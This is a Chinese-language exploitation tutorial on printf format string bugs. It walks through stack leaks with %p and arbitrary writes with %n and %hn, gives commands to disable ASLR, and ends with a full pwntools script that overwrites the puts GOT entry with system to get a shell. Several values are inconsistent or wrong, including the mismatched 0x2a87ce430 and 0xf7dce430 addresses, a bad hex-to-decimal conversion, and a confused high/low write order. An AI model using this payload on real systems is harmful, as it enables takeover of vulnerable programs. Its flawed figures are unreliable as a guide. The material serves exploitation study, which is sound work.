

# stack

关闭地址随机化（注：重启或重新进入终端后会失效，需要重新执行）

```
ulimit -s unlimited
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```


## 格式化字符串


### 格式字符串漏洞是如何工作的？

格式字符串漏洞是一类通过利用程序员容易避免的错误来实现攻击的漏洞。如果程序员将一个**攻击者控制的缓冲区（如：char 数组，字符串）**作为参数传递给`printf`（或任何相关的函数，包括`sprintf`、`fprintf`等），攻击者就可以执行对任意内存地址的写入操作。

以下程序包含此类错误：

```c
#include<stdio.h>

int main(void){
    char buff[100];
    scanf("%s",buff);
    printf(buff);
    return 0;
}
```


由于 **printf** 具有可变数量的参数，它必须使用格式字符串来确定参数的数量。在上述情况下，攻击者可以通过传递字符串 **"%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"** ，使 **printf** 误以为它有15个参数。它会天真地打印出栈上的接下来15个地址，认为它们是它的参数：

```
$ echo "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" | ./a.out 
0xffffdddd 0x64 0xf7ec1289 0xffffdbdf 0xffffdbde(nil) 0xffffdcc4 0xffffdc64(nil) 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```


### 实际参数 vs 可选参数

```
printf("%d %d %d",a,b,c);
```

- **字符串 "%d %d %d"** 是传递的第**一个实际参数**
- **变量 a** 是传递的第**二**个实际参数，或者说是第**一**个可选参数
- **变量 b** 是传递的第**三**个实际参数，或者说是第**二**个可选参数
- **变量 c** 是传递的第**四**个实际参数，或者说是第**三**个可选参数

**总结：除第一个字符串以外的实际参数，其他所有参数都是可选参数，可选参数位置为实际参数位置减一。**


通常，**printf("%2$x", 1, 2, 3)**将打印 **2（第二个可选参数）**，我们可以使用  `printf("%<some number>$x")` 来选择打印 `printf` 的任意可选参数。

```
$ echo "%10$p %20$p" | ./a.out
```

- **%10$p** 打印第 10 个可选参数，栈上的第 11 个参数（实际参数）
- **%20$p** 打印第 20 个可选参数，栈上的第 21 个参数（实际参数）


大约在栈上第10个参数处，我们可以看到**“重复内容” 0x25207025 ** ——这些是我们的**字符串 "%p%p%p%p..."** 在**栈上的 16进制**表示！

在我们的情况下，我们看到`0x41414141`是`printf`的第10个参数，因此我们可以简化我们的字符串：

```
$ echo 'AAAA%10$p' | ./a.out 
AAAA0x41414141
```


**一个其他的示例：**

因为字符串数组 **buff** 定义在栈上，且**源代码**中 **char buff[100];** 在 **printf(buff);** 之前，所以**字符串buff 在栈上的地址，高于通过栈传递给 printf 函数的参数的地址**。

通过**传递字符串 AAAAAA...**，可以更明确地看到这一点：

```
(gdb) x/20xw $esp 
0xffffcefc:	0x080491d0	0xffffcf18	0xffffcf18	0x0804821c
0xffffcf0c:	0x0804919d	0xf7ffdb8c	0x00000001	0x41414141
0xffffcf1c:	0x41414141	0x00414141	0x00000001	0xf7ffda20
0xffffcf2c:	0x00000000	0x00000000m	0xffffd1ab	0x00000002
0xffffcf3c:	0x0000001c	0xf7ffcfe8	0x00000018	0x00000000
```

**0xffffcefc** 存储 printf 函数中指向 ret 语句返回到 main 函数中的具体地址。

**0xffffcf00** 存储 printf 函数第 1 个参数。

**0xffffcf04** 栈上原有的内容，但是会被 printf 视为它的第 2 个参数（第 1 个可选参数）。

**0xffffcf17** 栈上原有的内容，也是字符串数组 buff 的首地址，也会被 printf 视为它的第 7 个参数（第 6 个可选参数）。


**打印第 1 个和第 6 个可选参数：**

```
$ echo "AAAA%1$p %6$p" | ./a.out
AAAA0xffffcf18 0x41414141
```


### 任意内存写入

那么如何将其转换为**任意内存写入**呢？ **printf** 有一个非常有趣的格式说明符 **%n**。根据 **printf** 的手册页：

- 已经写入的字符数存储到由 **int***（或变体）指针参数指示的整数中。不转换任何参数。


如果我们传递字符串 **AAAA%10$n**，我们会将**值 4** 写入地址 **0x41414141** ！

我们可以使用printf的另一特性来写入更大的值：如果我们执行 **printf("AAAA%100x")** ，将会输出 **104 个字符（因为%100x会将参数填充到至少100个字符）**。


我们可以做 `AAAA%<value-4>x%10$n` 来向 **0x41414141** 写入任意值。构造：

- **AAAA** 一个 4 字节的字符串（在十六进制中表示为 `0x41414141`），它将被放置在栈上，实际中使用写入的目标位置来替换AAAA。
- **`%<value-4>x`**  是一个具体的数值，是要写入到目标位置的整数值，为什么要减去 4？因为 **AAAA** 已经占用了 4 个字符的位置。如果我们想让 **printf** 输出总共 `<value>` 个字符，那么我们需要从 `<value>` 中减去这 4 个字符，以确保最终写入的值是正确的。
- **%10$n** 
    - `%n` 是一个特殊的格式说明符，它不会像 `%x` 或 `%d` 那样输出任何内容，而是将 `printf` 到目前为止已经输出的字符数存储到由对应参数指定的内存地址中。
    - `10$` 表示我们想要引用栈上的第 10 个参数。通过这种方式，我们可以精确地控制 `printf` 将字符数写入到哪个内存地址。
    - 在这个例子中，`AAAA` 被放置在栈上的某个位置，而 `%10$n` 会将已经输出的字符数（即 `<value-4>`）写入到 `AAAA` 所指向的内存地址 `0x41414141`。


如果要写入的地址为 **0x2a87ce430**，转为整形为**11416691760**，也就说 **printf** 要打印 **11416691760** 个字符，这需要等待很久很久的时间。

**printf 支持 %hn 和 %hhn** 选项：

- **%hn** 会将已输出的字符数作为**短整型**（**short int**），在 32 位系统中为 **2 字节**，写入到由参数指向的内存位置。
- **%hhn** 会将已输出的字符数作为**带符号字符**（**signed char**），在 32 位系统中为 **1 字节**，写入到由参数指向的内存位置。


### 覆盖 got 表

将 **0x2a87ce430** 拆分为 **0x2a87** 和 **0xce430**，因为使用的是**小端**，小端**低位**在内存中为**低地址**，**高位**在内存中是**高地址**，分两次写入目标地址的**高两位地址**和**低两位地址**。

**0x2a87** 对应内存中的**高地址**，**0xce430** 对应内存中的**低地址**。

假设写入的目标地址为 **0x804c010**，则 **0x2a87** 写入 **0x804c012（0x804c010 + 2）**， **0xce430** 写入 **0x804c010**。


假设只有一次利用 printf 的机会，所以必须在**一次 printf** 中分别写入**高两位和地两位**，由于 **%n** 是统计**输出的所有字节数**，所以必须先写入**值小的两位**，再写入**值大的两位**。

**0x2a87** 的整形为 **10887**，小于 **0xce430（58416）**，所以先写入 **0x2a87** 到**高两位**，再写入 **0xce430** 到**高两位**。


**存在格式化字符串漏洞的 C 程序的源代码为（关闭所有地址随机化）：**

```
char buff[100];
read(0,buff,100);
printf(buff);
puts(buff);
```



利用格式化字符串漏洞，将 **puts 函数跳转的地址**，**覆盖为 system 函数的地址**。

python 利用脚本：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "DEBUG"
context.terminal =  ['tmux', 'splitw', '-h']


# p = remote("1.95.36.136",2107)

p = process('./test')
gdb.attach(p,gdbscript=''' 	
    break * main + 84
    break * main + 99
    c
    x/20xw $esp
    x/20xb $esp + 24
    print system
    display 0x804c010
    display/xw 0x804c010
    ''')

puts = 0x804c010
aaaa = p32(puts)
bbbb = p32(puts + 2)

system = 0xf7dce430
low = (system & 0xFFFF) - 12
high = ((system >> 16) & 0xFFFF) - (system & 0xFFFF)

payload = b'sh;#' + aaaa + bbbb + b'%' + str(low).encode() + b'x%7$hn%' + str(high).encode() + b'x%8$hn'

p.readline()

p.sendline(payload)


p.interactive()
```
